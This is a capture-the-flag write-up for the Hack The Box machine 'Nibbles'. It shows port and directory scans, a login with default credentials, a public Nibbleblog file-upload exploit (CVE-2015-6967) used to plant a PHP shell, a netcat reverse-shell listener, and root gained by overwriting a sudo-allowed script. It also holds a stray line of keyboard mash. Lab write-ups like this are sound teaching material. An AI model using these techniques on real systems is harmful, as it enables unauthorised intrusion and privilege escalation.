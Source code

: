 ```yaml
---
layout: post
title: Nibbles
date: 2024-07-17 10:00:00 -0400
---
```

![machine card](/assets/nibbles/Nibbles.png)

fhdjsahflkjdsa fhdjksahfjkldsah hfdjksahlfkdjsa
# Recon

## nmap

I initiated an aggressive TCP scan using Nmap to enumerate all ports on the target machine.
```sh
spacemoth in ~/htb/nibbles λ nmap -sT -p- --min-rate 10000 -oA scans/alltcp 10.129.83.143            
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-07-17 20:27 EDT
Nmap scan report for 10.129.83.143
Host is up (0.035s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 6.66 seconds
```

I conducted a service version scan using Nmap to gather more detailed information about the identified open ports on the target machine.
```sh
spacemoth in ~/htb/nibbles λ nmap -p 22,80 -sV -sC -oA scans/svscan 10.129.83.143      
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-07-17 20:37 EDT
Nmap scan report for 10.129.83.143
Host is up (0.032s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 c4:f8:ad:e8:f8:04:77:de:cf:15:0d:63:0a:18:7e:49 (RSA)
|   256 22:8f:b1:97:bf:0f:17:08:fc:7e:2c:8f:e9:77:3a:48 (ECDSA)
|_  256 e6:ac:27:a3:b5:a9:f1:12:3c:34:a5:5d:5b:eb:3d:e9 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.18 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.68 seconds
```

## Port 80

![machine card](/assets/nibbles/nibbles1.png)

I check the source of the page and see another directory listed: /nibbleblog/

![machine card](/assets/nibbles/nibbles2.png)

### /nibbleblog/

![machine card](/assets/nibbles/nibbles3.png)

I poked around a bit, but didn't find much. I ran a `gobuster` scan and found an admin login page.

```sh
spacemoth in ~/htb/nibbles λ gobuster dir -u http://10.129.83.143/nibbleblog -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php                   
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.129.83.143/nibbleblog
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              php
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.php                 (Status: 403) [Size: 303]
/index.php            (Status: 200) [Size: 2988]
/sitemap.php          (Status: 200) [Size: 403]
/content              (Status: 301) [Size: 327] [--> http://10.129.83.143/nibbleblog/content/]
/themes               (Status: 301) [Size: 326] [--> http://10.129.83.143/nibbleblog/themes/]
/feed.php             (Status: 200) [Size: 304]
/admin.php            (Status: 200) [Size: 1401]
/admin                (Status: 301) [Size: 325] [--> http://10.129.83.143/nibbleblog/admin/]
/plugins              (Status: 301) [Size: 327] [--> http://10.129.83.143/nibbleblog/plugins/]
/install.php          (Status: 200) [Size: 78]
/update.php           (Status: 200) [Size: 1622]
/README               (Status: 200) [Size: 4628]
/languages            (Status: 301) [Size: 329] [--> http://10.129.83.143/nibbleblog/languages/]
/.php                 (Status: 403) [Size: 303]
Progress: 235515 / 441122 (53.39%)2024-07-17 21:19:07 VERIFY OK: depth=2, C=GR, O=Hack The Box, OU=Systems, CN=HTB VPN: Root Certificate Authority
2024-07-17 21:19:07 VERIFY OK: depth=1, C=GR, O=Hack The Box, OU=Systems, CN=HTB VPN: us-dedivip-1 Issuing CA
2024-07-17 21:19:07 VERIFY KU OK
2024-07-17 21:19:07 Validating certificate extended key usage
2024-07-17 21:19:07 ++ Certificate has EKU (str) TLS Web Client Authentication, expects TLS Web Server Authentication
2024-07-17 21:19:07 ++ Certificate has EKU (oid) 1.3.6.1.5.5.7.3.2, expects TLS Web Server Authentication
2024-07-17 21:19:07 ++ Certificate has EKU (str) TLS Web Server Authentication, expects TLS Web Server Authentication
2024-07-17 21:19:07 VERIFY EKU OK
2024-07-17 21:19:07 VERIFY OK: depth=0, C=GR, O=Hack The Box, OU=Systems, CN=us-dedivip-1
Progress: 235525 / 441122 (53.39%)2024-07-17 21:19:08 Control Channel: TLSv1.3, cipher TLSv1.3 TLS_AES_256_GCM_SHA384, peer certificate: 256 bits ED25519, signature: ED25519, peer temporary key: 253 bits X25519
Progress: 441120 / 441122 (100.00%)
===============================================================
Finished
===============================================================
```

### Admin

![machine card](/assets/nibbles/nibbles4.png)

I try a bunch of default credentials, and finally got in with admin:nibbles.

![machine card](/assets/nibbles/nibbles6.png)

## Exploit CVE-2015-6967

The readme showed version 4.0.3 of Nibbleblog.

![machine card](/assets/nibbles/nibbles5.png)

I found an Arbitrary File Upload exploit: https://github.com/dix0nym/CVE-2015-6967. Downloaded the script to my machine, created a simple php shell and set up a listener.

```sh
spacemoth in ~/htb/nibbles λ python3 exploit.py --url http://10.129.83.143/nibbleblog/ --username admin --password nibbles --payload shell.php
[+] Login Successful.
[+] Upload likely successfull.
```

At my listener I get a shell and obtain user flag.

```sh
spacemoth in ~/htb/nibbles λ sudo nc -lvnp 443                               
[sudo] password for spacemoth: 
listening on [any] 443 ...
connect to [10.10.14.14] from (UNKNOWN) [10.129.83.143] 41246
Linux Nibbles 4.4.0-104-generic #127-Ubuntu SMP Mon Dec 11 12:16:42 UTC 2017 x86_64 x86_64 x86_64 GNU/Linux
 21:19:52 up 56 min,  0 users,  load average: 0.00, 0.07, 0.07
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=1001(nibbler) gid=1001(nibbler) groups=1001(nibbler)
/bin/sh: 0: can't access tty; job control turned off
$ which python
$ which python3
/usr/bin/python3
$ python3 -c 'import pty;pty.spawn("/bin/bash")'
nibbler@Nibbles:/$ ^Z
[1]  + 383143 suspended  sudo nc -lvnp 443
spacemoth in ~/htb/nibbles λ stty raw -echo; fg
[1]  + 383143 continued  sudo nc -lvnp 443

nibbler@Nibbles:/$ whoami
nibbler
nibbler@Nibbles:/$ ls
bin   home	      lib64	  opt	sbin  tmp      vmlinuz.old
boot  initrd.img      lost+found  proc	snap  usr
dev   initrd.img.old  media	  root	srv   var
etc   lib	      mnt	  run	sys   vmlinuz
nibbler@Nibbles:/$ cd home
nibbler@Nibbles:/home$ ls
nibbler
nibbler@Nibbles:/home$ cd nibbler
nibbler@Nibbles:/home/nibbler$ ls
personal.zip  user.txt
nibbler@Nibbles:/home/nibbler$ cat user.txt
271a73c**************************
```

## Root

First thing I usually do is `sudo -l`

```sh
nibbler@Nibbles:/home/nibbler$ sudo -l           
Matching Defaults entries for nibbler on Nibbles:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User nibbler may run the following commands on Nibbles:
    (root) NOPASSWD: /home/nibbler/personal/stuff/monitor.sh
```

The file monitor.sh doesn't exist and I don't have permissions to create the directories/files. However there is a zip file in Nibbler's home directory. I unzipped it and it created /home/nibbler/personal/stuff/monitor.sh

```sh
nibbler@Nibbles:/home/nibbler$ unzip personal.zip
Archive:  personal.zip
   creating: personal/
   creating: personal/stuff/
  inflating: personal/stuff/monitor.sh
```

I overwrote the file and gave it permisions to execute.

```sh
nibbler@Nibbles:/home/nibbler/personal/stuff$ echo '#!/bin/bash' > monitor.sh  
nibbler@Nibbles:/home/nibbler/personal/stuff$ echo '/bin/bash' >> monitor.sh   
nibbler@Nibbles:/home/nibbler/personal/stuff$ sudo /home/nibbler/personal/stuff/monitor.sh             
root@Nibbles:/home/nibbler/personal/stuff# whoami
root
```

```sh
root@Nibbles:/home/nibbler/personal/stuff# cd /root
root@Nibbles:~# cat root.txt
bf8cb***************************
```
